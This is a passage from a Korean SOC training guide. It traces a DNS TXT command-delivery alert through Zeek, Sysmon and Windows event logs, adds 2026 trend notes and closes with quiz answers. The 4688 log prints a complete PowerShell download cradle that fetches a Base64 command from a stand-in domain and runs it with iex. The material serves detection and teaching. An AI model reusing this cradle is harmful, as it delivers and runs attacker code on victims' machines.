ts=2026-11-24T23:40:12.118Z  uid=Ct4Lq1  id.orig_h=10.20.0.53  id.orig_p=50213  id.resp_h=198.51.100.200  id.resp_p=53  proto=udp  query=cfg.upd-telemetry.example  qtype_name=TXT  rcode_name=NOERROR  answers=TXT 212 cG93ZXJzaGVsbCAtdyBoaWRkZW4gLWMgU3RhcnQtUHJvY2Vzcy…  TTLs=60
```

- `id.orig_h=10.20.0.53` — 질의는 PC가 아니라 내부 리졸버 **BG-DNS01**에서 나왔습니다. 정상입니다. 클라이언트는 내부 서버에 묻고, 내부 서버가 인터넷에 묻습니다. 진짜 클라이언트를 찾으려면 DNS 서버 자체 로그나 클라이언트↔서버 구간을 보는 센서가 필요합니다.
- `id.resp_h=198.51.100.200`, `id.resp_p=53` — `upd-telemetry.example`의 권한 있는(authoritative) 서버가 답했습니다.
- `query=cfg.upd-telemetry.example`, `qtype_name=TXT` — 하위 도메인에 대한 TXT 조회.
- `answers=TXT 212 cG93ZXJzaGVsbCAt…` — 212자짜리 TXT 답. `cG93ZXJzaGVsbC`는 `powershell`이라는 단어를 Base64로 바꾼 모양이라, 보자마자 알아볼 만한 무늬입니다. 오프라인에서 디코딩하면 앞부분이 `powershell -w hidden -c Start-Process…`입니다. 경보는 **진짜**입니다. 답에 정말 PowerShell 명령이 들어 있습니다.
- `TTLs=60` — 캐시 시간 1분. 운영자가 명령을 금방 바꿀 수 있게 해 둔 겁니다.

클라이언트를 찾으려고 분석가가 그 이름으로 Sysmon **이벤트 22**(DNS 질의 — Sysmon은 프로세스가 하는 DNS 조회를 프로세스 이름과 함께 하나하나 남깁니다)를 검색합니다.

```
EventID=22  UtcTime=2026-11-24 23:40:12.104  Computer=BG-WS-0388  Image=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  ProcessId=6120  QueryName=cfg.upd-telemetry.example  QueryStatus=0  User=BLUEGUM\l.nguyen
```

- `Computer=BG-WS-0388` — 클라이언트를 찾았습니다.
- `Image=…powershell.exe` — **PowerShell이 직접** TXT 레코드를 조회했습니다. 브라우저나 메일 프로그램이 TXT를 조회해도 이미 이상한데, PowerShell이 그런다면 스크립트가 지시를 받아 오고 있다는 강한 신호입니다.
- `ProcessId=6120` — 다음 피벗의 열쇠.
- `QueryStatus=0` — 성공.

PID 6120의 프로세스 생성 이벤트(Security **4688**):

```
EventID=4688  Computer=BG-WS-0388  SubjectUserName=l.nguyen  NewProcessId=0x17e8  NewProcessName=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  ParentProcessName=C:\Windows\System32\wscript.exe  CommandLine=powershell.exe -nop -w hidden -c "$t=(Resolve-DnsName cfg.upd-telemetry.example -Type TXT).Strings -join '';iex([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($t)))"
```

- `NewProcessId=0x17e8` — 16진수로 6120. Sysmon과 맞습니다.
- `ParentProcessName=…wscript.exe` — Windows Script Host가 PowerShell을 띄웠습니다. 먼저 `.js`나 `.vbs` 파일이 실행됐다는 뜻이죠. 이게 "왜 실행됐나"의 답이자 다음 피벗입니다(어떤 스크립트가 어디서 — 아마 다운로드나 첨부 파일, T1204.002 User Execution: Malicious File).
- `CommandLine=…`을 조각조각 읽으면:
    - `-nop -w hidden` — 프로필 안 읽기, 창 숨기기.
    - `Resolve-DnsName … -Type TXT` — TXT 레코드 조회.
    - `.Strings -join ''` — TXT 문자열들을 하나로 잇기(TXT 레코드는 최대 255자짜리 조각으로 나뉘어 옵니다).
    - `[Convert]::FromBase64String($t)`와 `UTF8.GetString` — Base64 디코딩.
    - `iex(...)` — `Invoke-Expression`: 돌아온 것을 그대로 **실행**. DNS 기반 다운로드 크래들(download cradle)입니다(통로는 T1071.004, 실행은 T1059.001, 인코딩은 T1027 Obfuscated Files or Information).

마지막으로 **4104**(PowerShell 스크립트 블록 로깅)가 디코딩된 명령이 실제로 무엇을 했는지 보여 줍니다.

```
EventID=4104  Computer=BG-WS-0388  ScriptBlockText=Start-Process -WindowStyle Hidden -FilePath "$env:APPDATA\Bluegum\svchelp.exe"
```

4104는 PowerShell이 디코딩한 *뒤의* 코드를 남기니까 Base64 껍질은 벗겨지고 진짜 동작이 그대로 보입니다. 사용자 로밍 프로필에서 `svchelp.exe`라는 프로그램을 숨긴 창으로 시작하라.

**4번 질문 — 이게 무엇을 말해 주나?** `l.nguyen` 계정으로 실행된 스크립트가 PowerShell로 TXT 레코드에서 Base64 명령을 받아 실행했고, 그 명령이 `svchelp.exe`를 띄웠습니다. 후속 질문은 저절로 나옵니다. 스크립트는 어디서 왔나(메일 게이트웨이, 브라우저 다운로드), `svchelp.exe`는 무엇인가(해시, EDR, 파일 분석), 그리고 **또 누가** `upd-telemetry.example`을 조회했나? 마지막 질문은 다시 DNS 서버 로그와 전체 호스트를 대상으로 한 SIEM 검색으로 돌아갑니다. 이런 네트워크 데이터를 계층별로 해석하는 법은 다음 페이지에서 다룹니다.

## 2026년 관점 { #trends }

!!! success "[2026 현재] 지금도 그대로 유효"
    네 질문 순서는 여전히 쓸모 있고, 오히려 더 그렇습니다. 요즘 SOC의 데이터 출처 수(EDR, SIEM, 아이덴티티 공급자, 클라우드 감사 로그, SaaS 로그, 이메일 보안)를 생각하면 "이 증거는 어디 있지?"가 예전보다 어려운 질문이 됐기 때문입니다. 1차 출처와 대안 출처라는 생각, Windows 자체 아티팩트(Prefetch, Amcache, Shimcache, UserAssist)의 가치, 연결이 기록되는 모든 곳을 떠올려 보는 습관은 모두 표준 실무로 남아 있습니다. DNS로 명령을 전달하는 방식과 PowerShell 다운로드 크래들도 지금까지 꾸준히 보고됩니다.

!!! info "[변경됨] 바뀐 점"
    - **아이덴티티와 클라우드가 일급 데이터 출처가 됐다.** 2026년의 경보 A에서 결정적 증거는 보통 패킷 캡처가 아니라 아이덴티티 공급자의 로그인 로그(예: 위치, 기기, 토큰 정보가 담긴 Entra ID 로그인)와 메일함 감사 로그입니다. 피싱 페이지 상당수가 세션 쿠키를 훔치는 중간자(AitM) 키트라서, "비밀번호를 입력했나?"는 "세션 토큰이 다른 사람에게 발급됐나?"로 바뀌었습니다.
    - **패킷 캡처가 보는 게 줄었다.** TLS 1.3, 암호화된 클라이언트 헬로(ECH), 널리 퍼진 인증서 고정(pinning) 때문에 전체 PCAP은 복호화하는 곳에서만 내용을 보여 줍니다. 엔드포인트 텔레메트리와 애플리케이션 로그가 더 많은 몫을 집니다.
    - **AI 코파일럿이 질문 초안을 쓴다.** SIEM·XDR 제품의 SOC 코파일럿이 이제 조사 질문을 제안하고, 평범한 말에서 KQL, SPL, ES|QL 검색문을 만들어 줍니다. 검색 언어라는 고개는 낮아졌지만, 그 검색이 맞는 데이터와 맞는 시간 범위를 보는지는 여전히 분석가가 확인해야 합니다. 결과가 0건인 틀린 검색은 "아무 일도 없었다"와 똑같아 보입니다.
    - **ATT&CK가 재편됐다.** v19(2026년 4월)에서 옛 Defense Evasion 전술이 **Stealth**와 **Defense Impairment**로 나뉘었습니다. T1027, T1036 같은 기법 ID는 번호를 유지했지만, T1562 Impair Defenses는 새 기법들(예: T1685 Disable or Modify Tools)로 대체됐습니다. 이 글을 쓰는 시점의 최신 버전은 v20(2026년 10월)입니다. 옛 플레이북의 매핑은 없어진 ID를 가리킬 수 있습니다.
    - **도구가 바뀌었다.** Kansa는 더 이상 활발히 개발되지 않고, Velociraptor, KAPE, EDR 라이브 대응이 일반적인 수집 경로입니다. 예전에 Moloch라 부르던 패킷 도구는 2020년부터 Arkime입니다.

!!! warning "[주의] 옛 방식대로 하면 틀리거나 위험한 점"
    - **DNS 로그에 응답이 있다고 가정하지 마세요.** 질문만 남기는 파이프라인이 많습니다. 사고 중이 아니라 지금 확인하세요.
    - **요즘 Windows에서 Shimcache에 있다는 건 실행이 아닙니다.** "이 파일이 여기 있었다"로 받아들이고, 실행은 Prefetch, Amcache와 다른 출처 하나, 또는 EDR로 확인하세요.
    - **휘발성 출처부터 수집하세요.** DNS 캐시, 메모리, 살아 있는 네트워크 연결은 재부팅하면 사라집니다. 그리고 사용자나 헬프데스크의 첫 반응은 대개 재부팅입니다.
    - **공개 제출은 샙니다.** 진행 중인 사건에서 파일을 올리거나 URL을 공개 검사하면 데이터가 드러나고 공격자가 눈치챌 수 있습니다. 먼저 검색하고, 제출은 맞는 공개 범위 설정으로만, 조직 규칙에 따라 하세요.
    - **"결과 없음"은 "활동 없음"이 아닙니다.** 아무 일도 없었다고 결론 내기 전에, 그 출처가 그 호스트와 그 시간 범위에 실제로 기록하고 있었는지 확인하세요.

## 확인 문제 { #quiz }

### 문제 1

경보가 울립니다. 198.51.100.66에서 내부 서버의 5900번 포트로 `EXPLOIT VNC Multiple Authentication Failures`. 검증 질문과, 진짜라면 답할 후속 질문 셋을 적고, 각각의 데이터 출처를 대 보세요.

??? success "정답과 해설"
    **검증:** 5900번 포트에서 정말 VNC였나(PCAP이나 IDS 패킷, Zeek `conn.log`의 service 필드)? 정말 반복된 실패였고 몇 번이었나(짧은 연결이 많이 보이는 Zeek `conn.log`나 NetFlow, VNC 서버 로그)? 198.51.100.66이 업체 지원 주소처럼 예상된 출발지인가(방화벽 규칙, 업체 계약, 자산 담당자)?

    **진짜라면 후속 질문:** (1) 애초에 인터넷에서 이 서버로 VNC가 허용되나? — 정책 문서와 방화벽 규칙. 답에 따라서는 공격과 상관없이 이것 자체가 노출 문제가 됩니다(T1133). (2) 성공한 시도가 있나? — VNC 서버의 인증 로그와 호스트의 Security 로그(그 시각 근처의 4624나 새 대화형 세션). 성공했다면 침해 가능성이 높은 사건이 됩니다(T1110.001, T1021.005). (3) 어떤 계정이나 비밀번호를 시도했고, 그 주인은 누구인가? — VNC 서버 로그, 디렉터리와 인사 데이터. 좋은 넷째 질문: 같은 출발지가 다른 서비스나 호스트도 시도했나? — 방화벽과 센서 로그 전체에서 198.51.100.66을 SIEM으로 검색.

### 문제 2

평소 어느 사용자가 어느 웹사이트에 갔는지 알려 주던 프록시가 일주일 동안 설정이 잘못돼 있었고, 월요일에 누가 `invoice-portal.example`에 갔는지 알아야 합니다. 대안 출처 넷과 각각이 주는 것 — 그리고 주지 못하는 것 — 을 말해 보세요.

??? success "정답과 해설"
    1. **내부 DNS 서버 로그** — 어느 내부 IP가 언제 그 이름을 해석했나. 사용자도, 전체 URL도 아닙니다. IP를 기기로 바꾸려면 DHCP가 필요합니다.
    2. **Zeek `ssl.log`/`dns.log`** — 클라이언트 IP, 서버 IP, HTTPS라면 SNI 호스트 이름. URL 경로나 사용자는 없습니다.
    3. **Sysmon 22 / EDR 네트워크 이벤트** — 호스트, *프로세스*(예: `chrome.exe`), 로그온한 사용자. 에이전트가 깔린 호스트에서만.
    4. **방화벽이나 NetFlow 로그** — 클라이언트·서버 IP, 바이트, 시각. 그 이름이 해석된 IP를 알아야 하고, 공유 호스팅이나 CDN에서는 IP 하나가 여러 사이트를 서비스합니다.

    그 밖에: 호스트의 브라우저 기록, 사이트가 SSO를 썼다면 아이덴티티 공급자 로그, 원격 사용자라면 VPN 로그. DNS(이름 → IP와 클라이언트), DHCP(클라이언트 IP → 기기), EDR(기기 → 사용자)을 엮으면 프록시가 줬을 것의 대부분을 다시 맞출 수 있습니다. 먼저 출처마다 보관 기간을 확인하세요. 사흘만 보관하는 대체 출처는 지난 월요일 일에 도움이 안 됩니다.

### 문제 3

경보 D 예제에서 Zeek `dns.log` 줄은 질의가 DNS 서버 10.20.0.53에서 나왔다고 보여 줬습니다. 동료가 말합니다. "그럼 DNS 서버가 침해된 거네." 이 결론의 무엇이 틀렸나요? 진짜 클라이언트는 어떻게 찾았고, 실행된 내용을 읽을 수 있는 형태로 보여 준 이벤트 하나는 무엇이었나요?

??? success "정답과 해설"
    DNS 서버는 **리졸버**입니다. 클라이언트가 질의를 보내면 대신 외부 서버에 물어봅니다. 그래서 DNS 서버와 인터넷 사이의 센서는 모든 외부 조회를 DNS 서버 주소에서 나온 것으로 봅니다. 이건 *어떤* 클라이언트가 그 이름을 물었다는 것만 증명할 뿐, 서버가 침해됐다는 증거가 아닙니다.

    진짜 클라이언트는 조회를 한 호스트, 프로세스, 사용자를 남기는 **Sysmon 이벤트 22**(DNS 질의)로 찾았습니다. BG-WS-0388, `powershell.exe`, `l.nguyen`. (DNS 서버 자체 질의 로그나 클라이언트↔서버 구간을 보는 센서로도 됩니다.) 이어서 4688이 PowerShell 명령줄과 부모 `wscript.exe`를 보여 줬습니다.

    전달된 명령은 네트워크에서도, 4688 명령줄에서도 읽을 수 있는 형태로 나타나지 않았습니다. TXT 답 속 Base64로만 있었죠. 그걸 **디코딩된** 형태로 보여 준 이벤트는 **4104**, PowerShell 스크립트 블록 로깅입니다. PowerShell이 난독화를 푼 뒤의 코드를 기록하니까요: `Start-Process … svchelp.exe`.

## 관련 레퍼런스 { #related }

- [조사 질문과 분석](index.md) — 섹션 개요
- [링크 분석과 이벤트 매트릭스](../structured-analysis/link-analysis-event-matrix.md) — 앞 섹션의 정리 기법
- [경보 우선순위 매기기](../alert-triage/prioritising-alerts.md) — 어느 경보부터 시작할지 정하기
- [DNS 수집과 조사](../dns/collection-and-investigation.md) · [DNS 악용](../dns/dns-abuse.md)
- [프로세스 생성 이벤트](../important-events/process-creation.md) · [로그인 이벤트](../important-events/logins.md) · [계정, Defender, PowerShell 이벤트](../important-events/accounts-defender-powershell.md)
- [자산 목록, 취약점, 패치](../endpoint-defense/inventory-vulns-patching.md) · [PAW, EDR, DLP, UEBA](../endpoint-defense/paw-edr-dlp-ueba.md)
- [PowerShell 다운로드 크래들](../../../adversary/powershell-cradles.md)
